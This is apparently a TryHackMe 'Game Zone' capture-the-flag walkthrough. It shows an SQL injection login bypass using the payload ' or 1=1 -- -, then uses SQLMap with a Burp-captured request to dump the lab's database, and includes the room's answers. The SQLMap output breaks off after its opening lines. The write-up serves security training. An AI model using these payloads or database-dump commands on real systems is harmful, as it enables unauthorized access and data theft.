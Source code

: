 If we have our username as admin and our password as: `' or 1=1 -- -` it will insert this into the query and authenticate our session.

The SQL query that now gets executed on the web server is as follows:

```sql
SELECT * FROM users WHERE username = admin AND password := ' or 1=1 -- -
```

The extra SQL we inputted as our password has changed the above query to break the initial query and proceed (with the admin user) if 1==1, then comment the rest of the query to stop it breaking.

`No answer needed`

GameZone doesn't have an admin user in the database, however you can still login without knowing any credentials using the inputted password data we used in the previous question.

Use `' or 1=1 -- -` as your username and leave the password blank.

When you've logged in, what page do you get redirected to?

`portal.php`

## Task 3 Using SQLMap

SQLMap is a popular open-source, automatic SQL injection and database takeover tool. This comes pre-installed on all version of [Kali Linux](https://tryhackme.com/rooms/kali) or can be manually downloaded and installed [here](https://github.com/sqlmapproject/sqlmap).

There are many different types of SQL injection (boolean/time based, etc..) and SQLMap automates the whole process trying different techniques.

We're going to use SQLMap to dump the entire database for GameZone.

Using the page we logged into earlier, we're going point SQLMap to the game review search feature.

First we need to intercept a request made to the search feature using [BurpSuite](https://tryhackme.com/room/learnburp).

![](https://i.imgur.com/ox4wJVH.png)

Save this request into a text file. We can then pass this into SQLMap to use our authenticated user session.

![](https://i.imgur.com/W5boKpk.png)

- **-r** uses the intercepted request you saved earlier
- **--dbms** tells SQLMap what type of database management system it is
- **--dump** attempts to outputs the entire database

![](https://i.imgur.com/iiQ7g9t.png)

SQLMap will now try different methods and identify the one thats vulnerable. Eventually, it will output the database.

```
bibo318@parrot:~/CTFs/tryhackme/Game Zone$ sqlmap -r r.txt --dbms=mysql --dump
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.4.9#stable}
|_ -| . [']     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 23:18:52 /2020-11-18/

[23:18:52] [INFO] parsing HTTP request from 'r.txt'
```